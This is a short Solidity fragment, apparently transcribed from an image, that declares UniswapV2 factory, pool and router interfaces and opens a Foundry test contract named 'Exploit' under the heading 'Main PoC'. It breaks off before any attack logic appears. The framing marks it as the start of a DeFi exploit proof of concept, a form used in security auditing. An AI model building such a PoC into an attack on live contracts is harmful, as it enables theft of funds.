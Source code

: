 ```solidity
// --------------------------------------------------------
// UniswapV2 interfaces
interface IUniswapV2Factory {
    function createPair(address tokenA, address tokenB)
        external
        returns (address pair);
}

interface IUniswapV2Pool {
    function approve(address, uint256) external;

    function getReserves()
        external
        view
        returns (
            uint112 _reserve0,
            uint112 _reserve1,
            uint32 _blockTimestampLast
        );
}

interface IUniswapV2Router {
    function addLiquidity(
        address tokenA,
        address tokenB,
        uint256 amountADesired,
        uint256 amountBDesired,
        uint256 amountAMin,
        uint256 amountBMin,
        address to,
        uint256 deadline
    )
        external
        returns (
            uint256 amountA,
            uint256 amountB,
            uint256 liquidity
        );

    function removeLiquidity(
        address tokenA,
        address tokenB,
        uint256 liquidity,
        uint256 amountAMin,
        uint256 amountBMin,
        address to,
        uint256 deadline
    ) external returns (uint256 amountA, uint256 amountB);

    function swapExactTokensForTokens(
        uint256 amountIn,
        uint256 amountOutMin,
        address[] calldata path,
        address to,
        uint256 deadline
    ) external returns (uint256[] memory amounts);
}

// --------------------------------------------------------
// Main PoC
contract Exploit is Test {
    MockSSLV sslv;

```